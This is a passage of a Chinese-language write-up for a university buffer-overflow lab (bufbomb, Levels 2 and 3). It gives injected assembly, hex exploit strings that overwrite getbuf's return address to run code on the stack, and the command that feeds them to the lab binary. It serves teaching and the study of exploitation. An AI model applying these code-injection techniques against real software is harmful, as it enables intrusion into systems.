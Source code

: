```shell

#插入汇编代码如下
mov 0x804d108,%eax #存入cookie值
mov %eax,0x804d100 #global_value = cookie
push $0x08048c9d #bang函数的地址，立即数要带$
ret #执行0x09048c9d处的代码

#上面的代码插入到buf，那么要怎么执行buf中的代码呢
#需要知道buf的地址，使getbuf函数返回时，转跳到buf
#上面已经知道buf的地址是0x556835b8

#先仿照level0，使getbuf函数返回时转跳到buf
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 b8 35 68 55

#b8 35 68 55会使buf开头被当作代码执行，在那里放入需要执行的代码
#将汇编代码转换为十六进制数的过程见readme.md
#level2.txt如下
8b 04 25 08 d1 04 08
89 04 25 00 d1 04 08
68 9d 8c 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b8 35 68 55
#要注意，代码执行的方向就是从低地址到高地址的
#所以先执行的代码应该放到低地址，而存入buf时前面的就是低地址
cat level2.txt|./hex2raw|./bufbomb -u h
```
## <div id="level3">9.Level 3:Dynamite(20 pts)</div>
我们之前的攻击都导致程序跳转到其他函数的代码，然后导致程序退出。因此，使用破坏堆栈的漏洞字符串来覆盖保存的值是可以接受的。最复杂的缓冲区溢出攻击形式会导致程序执行一些利用代码来更改程序的寄存器/内存状态，但会使程序返回到原始调用函数（在这种情况下为test,getbuf函数被test函数调用）。调用函数对攻击视而不见。不过，这种类型的攻击很棘手，因为您必须：1）将机器代码放到堆栈上，2）将返回指针设置为该代码的开头，3）撤消对堆栈状态的任何损坏。

此级别的工作是提供一个漏洞利用字符串，该字符串将导致getbuf将cookie返回测试，而不是值1。你可以在测试代码中看到，这将导致程序进入“Boom！”。你的攻击代码应该将你的cookie设置为返回值

### 9.1.一些建议
前面三点和8.1一样，下面这一点不一样

一旦你完成了这个级别，停下来反思一下你已经完成了什么。你让一个程序执行你自己设计的机器代码。你以一种足够隐秘的方式这样做，以至于程序没有意识到有什么不对劲。

```cpp
//解题过程
//getbuf函数是在test函数中被调用的，为了让getbuf函数返回值为cookie(修改寄存器eax的值为cookie)一定要注入代码，为了执行注入的代码一定要让getbuf的返回地址为buf的地址，为了返回test又一定要让注入的代码返回test函数中调用getbuf的下一句的地址

//level2中已经知道-u h的情况下
//buf地址为           0x556835b8


//而test函数中调用getbuf的下一句的地址
//可以直接读汇编代码得到 是0x8048dbe

//需要注入的代码如下
//在level2的bang函数中已经得知cookie值存放的地址是0x804d108
mov 0x0804d108,%eax
//上面这一行改成 mov $0x20083f2f,%eax 也行
```